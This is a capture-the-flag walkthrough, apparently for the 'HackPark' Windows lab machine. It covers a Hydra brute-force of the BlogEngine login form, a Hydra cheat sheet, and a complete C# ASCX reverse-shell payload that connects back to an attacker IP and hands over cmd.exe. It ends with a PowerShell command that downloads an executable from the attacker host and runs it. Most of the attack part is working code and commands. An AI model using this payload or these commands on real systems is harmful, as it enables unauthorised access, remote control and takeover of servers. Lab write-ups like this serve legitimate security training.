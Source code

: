 **Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!**



# Enumerating

## namp

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 15:50 IST
Nmap scan report for 10.10.127.19
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/8.5
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2022-04-21T10:18:58
|_Not valid after:  2022-10-21T10:18:58
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2022-04-22T10:21:49+00:00
|_ssl-date: 2022-04-22T10:21:51+00:00; +3s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
```



## Gobuster

![image-20220422160246408](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220422160246408.png)

## hydra

```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.127.19  http-post-form "/Account/login.aspx:__VIEWSTATE=ScTUsDEL61RxXQbUkxPIvjWwWIPtRoGua7VlvlhkXMv83IlH8nDZNBJap5qDDRHYpohgQkDHiy%2FBC%2BxgOpa%2BQyclcuurGR6oEQrtrgMMab51BRVITHbw51etTYHg%2BOSqlTEdhO1sq6LyFJ6OiiTP6d9DJf02wqbnAd2tPNuj2XvUivov&__EVENTVALIDATION=IwDYcG9QBNf8p2xPKx%2B%2Fw5JxMDpBvm8H7wN1ksA5dw9A8UBpnwOCo0Dw%2BPk5zNJmkB9lQ%2FliisMfMuMuK0XXTqgvEqLeivDFKIVc5TL58r9bwhfN6No%2FVNcCXAAYsaZZOdkMyqjZVNaOltsfMh1u4e0p9aFSTmWecZYwxusByDyG%2FSae&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -t 64
```

```bash
[80][http-post-form] host: 10.10.127.19   login: admin   password: 1qaz2wsx
```



​                                                            

We need to find a login page to  attack and identify what type of request the form is making to the  webserver. Typically, web servers make two types of requests, a **GET** request which is used to request data from a webserver and a **POST** request which is used to send data to a server.

You can check what request a form is making by right clicking on the login  form, inspecting the element and then reading the value in the method  field. You can also identify this if you are intercepting the traffic  through BurpSuite (other HTTP methods can be found [here](https://www.w3schools.com/tags/ref_httpmethods.asp)).

What request type is the Windows website login form using?

Now we know the **request type** and have a **URL** for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

**hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form**

Guess a username, choose a password wordlist and gain credentials to a user account!

​                                                         

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the **http-post-form** that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Below is a mini cheatsheet:

| **Command**                                                  | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| hydra -P <wordlist> -v <ip> <protocol>                       | Brute force against a protocol of your choice                |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> | You can use Hydra to bruteforce usernames as well as passwords. It will  loop through every combination in your lists. (-vV = verbose mode,  showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>      | Attack a Windows Remote Desktop with a password list.        |
| hydra -l <username> -P .<password list> $ip -V http-form-post  '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log  In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.      |

# Compromise the machine                            

## Exploit

rename it to  PostView.ascx  Change ip and port on 11 line

- upload it to   ` http://<ip>/admin/app/editor/editpost.cshtml`
- start nc
- access from  `http://<ip>/?theme=../../App_Data/files`

````ascx

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.17.4.58", 443)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

````

#   Windows Privilege Escalation  (Msfconsole)

- **uploading file in windows**

`powershell -c "Invoke-WebRequest -Uri 'http://10.17.4.58:1111/tcc.exe' -OutFile 'C:\Windows\Temp\tcc.exe'"`

- *To run the exe* `.\tcc.exe`

